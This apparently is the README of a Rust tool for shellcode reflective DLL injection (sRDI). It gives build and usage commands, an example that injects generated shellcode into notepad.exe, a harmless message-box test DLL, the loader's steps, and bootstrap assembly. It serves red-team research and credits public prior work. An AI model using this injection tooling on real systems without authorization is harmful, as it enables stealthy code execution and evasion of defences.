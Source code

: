# Shellcode Reflective DLL Injection (sRDI)

## Description

Shellcode reflective DLL injection (sRDI) is a process injection technique that allows us to convert a given DLL into a position-independent shellcode which can then be injected using our favorite shellcode injection and execution technique.

## Install Rust

https://www.rust-lang.org/tools/install


## Install cargo-make

```
cargo install --force cargo-make
```

## Usage

1). Build all of the projects using `cargo-make`.

```
cargo make --profile production
```

2). Generate the shellcode.
```
generate_shellcode.exe <reflective loader dll path> <user dll path> <user function> <user data> <shellcode outfile path>
```

3). Use `inject` or bring your own injector (BYOI) and inject the position-independent shellcode with your favorite injection and execution technique.

```
inject.exe <process> <shellcode.bin>
```

## Example

```
cargo make --profile production
generate_shellcode.exe reflective_loader.dll testdll.dll SayHello memN0ps shellcode.bin
inject.exe notepad.exe shellcode.bin
```


# Details

## Test DLL

This is the payload that will be executed by the reflective loader. Both the `DllMain` and `SayHello` functions will be called.

[Why?](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)

*"The assumption of reflective DLL injection is that calling the entry point of the DLL is sufficient to execute the full functionality of the DLL. However, this is often not the case. In fact, [Microsoft advises](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-best-practices) developers to minimize the amount of work done in `DllMain`, and to do “lazy initialization”, avoiding loading additional libraries or creating new threads. The main entry point then, would be in another function that would be called separately after the DLL was loaded."* - Dan Staples

```rust
#[no_mangle]
#[allow(non_snake_case)]
pub unsafe extern "system" fn DllMain(
    _module: HINSTANCE,
    call_reason: u32,
    _reserved: *mut c_void,
) -> BOOL {
    if call_reason == DLL_PROCESS_ATTACH {
        MessageBoxA(
            0 as _,
            "Rust DLL injected!\0".as_ptr() as _,
            "Rust DLL\0".as_ptr() as _,
            0x0,
        );

        1
    } else {
        1
    }
}

#[no_mangle]
#[allow(non_snake_case)]
fn SayHello(user_data: *mut c_void, user_data_len: u32) {
    let user_data_slice =
        unsafe { core::slice::from_raw_parts(user_data as *const u8, user_data_len as _) };
    let user_data = std::str::from_utf8(user_data_slice).unwrap();
    let message = format!("Hello from {}", user_data);

    unsafe {
        MessageBoxA(
            0 as _,
            message.as_ptr() as _,
            "SayHello!\0".as_ptr() as _,
            0x0,
        );
    }
}
```

## Reflective Loader

The reflective loader emulates `LoadLibraryA`:

Step 1) Load required modules and exports by hash

Step 2) Allocate memory and copy sections and headers into the newly allocated memory (`VirtualAlloc` uses `RW` not `RWX`)

Step 3) Process image relocations (rebase image)

Step 4) Process image import table (resolve imports)

Step 5) Set protection for each section (`VirtualProtect` changes memory protection for each section)

Step 6) Execute DllMain

Step 7) Execute USER_FUNCTION

Step 8) Free memory (new module base memory from `VirtualAlloc` is freed using `VirtualFree`) and exit thread (TODO)


## Generate Position Independent Shellcode

The `generate_shellcode` project will generate shellcode and output a file that looks like this in memory:

[![sRDI](./sRDI.png)](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/)

This is the bootstrap shellcode that does the magic by passing the parameters and calling the reflective loader:

```asm
call 0x00
pop rcx
mov r8, rcx

push rsi
mov rsi, rsp
and rsp, 0x0FFFFFFFFFFFFFFF0
sub rsp, 0x30

mov qword ptr [rsp + 0x20], rcx
sub qword ptr [rsp + 0x20], 0x5

mov dword ptr [rsp + 0x28], <flags>

mov r9, <length of user data>
add r8, <user function offset> + <length of DLL>
mov edx, <hash of function>
add rcx, <offset of dll>

call <reflective loader address>

nop
nop

mov rsp, rsi
pop rsi
ret

nop
nop
```

[Why?](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)

*"The reason we need the bootstrap shellcode is due to the limited amount of data we’re able to pass to the reflective loader with Stephen Fewer’s original reflective DLL injection technique."* - Dan Staples

*"Since Fewer’s reflective DLL injection technique passes the address of the reflective loader to `CreateRemoteThread` as the `lpStartAddress` parameter, it’s only able to pass a single void pointer."* - Dan Staples

*"But if we want our reflective loader to call an additional export after loading the DLL, we’ll need to give it more information! We’ll do this by passing additional parameters to the reflective loader function using some bootstrap shellcode."* - Dan Staples


The new declaration of our reflective loader function will be:

```rust
#[no_mangle]
pub extern "system" fn reflective_loader(
    image_bytes: *mut c_void,    // testdll base address
    user_function_hash: u32,     // SayHello hash 
    user_data: *mut c_void,      // memN0ps
    user_data_length: u32,       // 7
    _shellcode_base: *mut c_void,// bootstrap shellcode base address
    flags: u32,                  // 0x2
)
```

## TODO

* Stomp / erase DOS and NT headers
* Free `bootstrap shellcode / RDI / testdll / user data` memory and exit thread. Note that newly allocated memory (`VirtualAlloc` using `RW`) is already being freed at the end of RDI using `VirtualFree`. (The rest can be done by the user, if needed).
* x86 support (mostly already done)

## References and Credits

* https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/
* https://github.com/monoxgas/sRDI
* https://github.com/stephenfewer/ReflectiveDLLInjection/
* https://discord.com/invite/rust-lang-community (Rust Community #windows-dev channel)
* https://github.com/dismantl/ImprovedReflectiveDLLInjection
* https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html
* https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/
* https://github.com/Cracked5pider/KaynLdr
* https://github.com/Ben-Lichtman/reloader/
* https://github.com/not-matthias/mmap/
* https://github.com/memN0ps/mmapper-rs
* https://github.com/2vg/blackcat-rs/tree/master/crate/mini-sRDI
* https://github.com/Jaxii/idk-rs/
* https://github.com/janoglezcampos/rust_syscalls/